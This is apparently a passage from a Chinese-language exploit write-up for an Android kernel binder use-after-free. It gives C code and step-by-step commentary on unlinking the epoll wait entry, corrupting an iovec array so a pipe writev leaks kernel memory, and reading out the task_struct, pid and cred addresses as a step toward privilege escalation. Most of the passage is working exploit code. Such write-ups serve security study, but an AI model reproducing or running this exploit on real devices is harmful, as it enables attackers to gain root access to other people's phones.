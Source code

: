 接着执行子线程

```c

    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }

        exit(EXIT_SUCCESS);

    }
```

 sleep(2);是为了等主线程执行完上述步骤

epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);破坏掉我们的iovc,将iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base改为wait.head.next原本在binder_thread的地址

nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));解除阻塞，返回到主线程

```c
 ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
```

继续执行writev, iovecStack[IOVEC_WQ_INDEX]已经写入管道，并在子线程中读取了,管道清空，接着执行 iovecStack[IOVEC_WQ_INDEX+1],注意这里的iovecStack[IOVEC_WQ_INDEX+1].base已经改为了wait.head.next原本在binder_thread的地址，因此会将wait.head.next原本在binder_thread的地址开始的剩余内容写入管道

```c
 if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
```